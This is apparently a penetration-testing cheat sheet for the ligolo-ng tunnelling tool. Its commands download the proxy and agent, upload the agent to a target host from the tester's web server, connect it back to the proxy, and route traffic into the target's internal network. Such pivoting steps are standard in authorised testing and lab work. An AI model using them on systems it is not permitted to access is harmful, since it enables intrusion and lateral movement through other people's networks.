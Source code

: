 ### download proxy
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz

tar -xzvf ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz 
```

### download agent
#### windows
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip 

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip 
```
#### linux
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_linux_amd64.tar.gz

tar -xzvf ligolo-ng_agent_0.5.2_linux_amd64.tar.gz
```

### set proxy
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

### upload agent
#### windows
```
iwr -UseBasicParsing http://ip:8000/agent.exe -outfile agent
```
#### linux
```
wget http://ip:8000/agent
```

### connect to proxy 
```
./agent -connect 192.168.45.x:11601 -ignore-cert
```

### chose session id
```
session
1
```

### add route
```
sudo ip route add ip/24 dev ligolo
```

### ligolo-ng start
```
start
```

### listener add
```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```
